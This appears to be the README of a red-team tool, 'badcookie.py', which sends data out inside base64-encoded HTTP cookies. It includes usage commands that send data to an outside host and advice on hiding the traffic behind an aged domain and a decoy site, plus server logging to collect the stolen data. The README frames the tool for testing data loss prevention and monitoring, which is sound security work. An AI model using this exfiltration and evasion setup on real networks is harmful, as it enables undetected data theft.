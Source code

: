 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Bad cookie exfiltrates data via base64 encoded HTTP cookies.

# Some use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Outbound network traffic monitoring systems.
* Red Team / Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size 

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`
`Example(2): badcookie.py www.secretsite.com "very important data"`

`Use quotes if you plan to transmit data with whitespace`


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain. It can be a news, blog or any other site. So when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish)
* Fill the site with some real looking content
* If you are testing systems where there is a web filtering proxy involved, try and use domain which is  more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in apache ( you can use any server you like). The sample config file in this repository “000-default.conf” in the  “apache_conf” folder can be used to enable cookie logging. Place config file in /etc/apache2/sites-enabled/ and restart Apache.  You should now see a file called “cookies.log” in /var/log/apache2.
* Execute the badcookie script.
* After executing the script you should see the following log entry in cookies.log. The log shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

* Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.

* Have fun
